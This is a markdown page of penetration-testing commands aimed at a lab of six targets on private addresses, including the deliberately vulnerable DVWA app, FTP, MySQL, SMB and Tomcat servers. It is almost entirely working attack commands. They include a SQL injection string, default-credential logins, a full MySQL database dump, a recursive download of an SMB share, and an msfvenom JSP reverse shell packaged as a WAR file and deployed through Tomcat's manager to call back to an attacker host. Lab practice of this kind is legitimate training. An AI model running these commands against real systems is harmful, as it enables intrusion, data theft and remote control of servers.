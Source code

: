 ### Target 2: DVWA Web App (172.16.0.30)
```bash
# Web enumeration
nikto -h http://172.16.0.30
gobuster dir -u http://172.16.0.30 -w /usr/share/wordlists/dirb/common.txt

# Default login: admin:password
curl -X POST http://172.16.0.30/login.php -d "username=admin&password=password&Login=Login"

# SQL Injection test
curl "http://172.16.0.30/vulnerabilities/sqli/?id=1' OR '1'='1"
```

### Target 3: FTP Server (172.16.0.40)
```bash
# Check anonymous access
ftp 172.16.0.40
# Username: anonymous
# Password: anonymous

# Using nmap
nmap --script ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor 172.16.0.40
```

### Target 4: MySQL Database (172.16.0.50)
```bash
# Try connection
mysql -h 172.16.0.50 -u root -p
# Password: password123

# Remote enumeration
nmap --script mysql-databases,mysql-empty-password,mysql-enum,mysql-info 172.16.0.50

# Dump databases
mysqldump -h 172.16.0.50 -u root -ppassword123 --all-databases
```

### Target 5: SMB Server (172.16.0.60)
```bash
# Enumerate shares
smbclient -L //172.16.0.60 -N
enum4linux -a 172.16.0.60

# Connect to share
smbclient //172.16.0.60/public -U smbuser
# Password: password123

# Download all files
smbget -R smb://172.16.0.60/public -U smbuser
```

### Target 6: Tomcat Server (172.16.0.70)
```bash
# Check manager app
curl http://172.16.0.70:8080/manager/html -u admin:admin

# Deploy WAR file for shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.0.11 LPORT=4444 -f war > shell.war
curl --upload-file shell.war -u admin:admin "http://172.16.0.70:8080/manager/text/deploy?path=/shell"
```
